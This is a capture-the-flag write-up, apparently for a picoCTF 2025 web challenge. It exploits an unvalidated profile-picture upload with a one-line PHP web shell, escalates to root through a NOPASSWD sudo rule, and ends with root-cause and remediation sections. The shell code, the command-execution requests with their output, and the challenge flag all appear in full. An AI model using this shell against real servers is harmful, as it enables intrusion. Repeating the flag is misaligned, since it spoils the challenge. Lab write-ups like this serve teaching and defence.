





# n0s4n1ty — Web Exploitation

**Platform:** picoCTF 2025  
**Category:** Web Exploitation  
**Difficulty:** Easy  
**Flag:** `picoCTF{wh47_c4n_u_d0_wPHP_5fd11be6}`

---

## TL;DR

The profile-picture upload form performs **no server-side file validation** — any file type is accepted and stored in a publicly web-accessible directory that executes PHP. Uploading a one-line PHP web shell gives remote code execution as `www-data`. A misconfigured `sudo` policy (`NOPASSWD: ALL`) then trivially escalates to root, making the flag readable in one request.

---

## Recon

The target (`http://standard-pizzas.picoctf.net:52727/`) presents a simple profile-picture upload form backed by `upload.php`.



The only "validation" visible in the page source is client-side JavaScript that generates a local image preview using `URL.createObjectURL()`. This is **purely cosmetic** — it never touches the data that gets sent to the server.



---

## Step 1 — Upload a PHP web shell

```php
<?php system($_GET['cmd']); ?>
```

Saved this as `shell.php` and submitted it through the upload form. The server accepted it without complaint and stored it at:

```
/uploads/shell.php
```

No extension whitelist, no MIME-type check, no magic-byte inspection — anything goes.

---

## Step 2 — Confirm remote code execution

```
GET /uploads/shell.php?cmd=id
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



The uploaded file landed in a directory the web server can **execute**, not just serve. We now have arbitrary command execution under the `www-data` account.

---

## Step 3 — Check `sudo` privileges

```
GET /uploads/shell.php?cmd=sudo -l
```

```
User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```



`www-data` can run **any command as any user with no password**. This is a textbook misconfiguration — service accounts should never hold escalated `sudo` rights.

---

## Step 4 — Read the flag

```
GET /uploads/shell.php?cmd=sudo cat /root/flag.txt
```

```
picoCTF{wh47_c4n_u_d0_wPHP_5fd11be6}
```



---

## Attack Chain

```
Unrestricted upload
      │
      ▼
shell.php stored in web-accessible /uploads/
      │
      ▼
GET /uploads/shell.php?cmd=… → arbitrary OS commands as www-data
      │
      ▼
sudo NOPASSWD: ALL → root
      │
      ▼
cat /root/flag.txt
```

---

## Root Cause

| Issue | Detail |
|-------|--------|
| No server-side file validation | Extension, MIME type, and magic bytes are all unchecked |
| Uploads land in a script-executable directory | PHP files in `/uploads/` are interpreted by the web server |
| User input fed directly to `system()` | Classic OS command injection |
| `www-data` has `NOPASSWD: ALL` sudo | Service accounts must never hold blanket privilege escalation |

---

## Remediation

1. **Whitelist allowed file types server-side.** Check the actual file content (magic bytes / `finfo_file()`), not just the extension or the `Content-Type` header supplied by the client.
2. **Store uploads outside the web root**, or configure the web server to refuse script execution in the upload directory (`php_flag engine off` in `.htaccess`, or `location /uploads { deny all; }` with a separate static-file serving path).
3. **Rename uploaded files** to a random UUID and strip executable permissions (`chmod a-x`).
4. **Never pass unsanitized user input to `system()` / `exec()` / `shell_exec()`.**
5. **Apply the principle of least privilege** to service accounts. `www-data` should not be able to `sudo` anything; if a specific privileged command is genuinely needed, scope it precisely in `/etc/sudoers`.
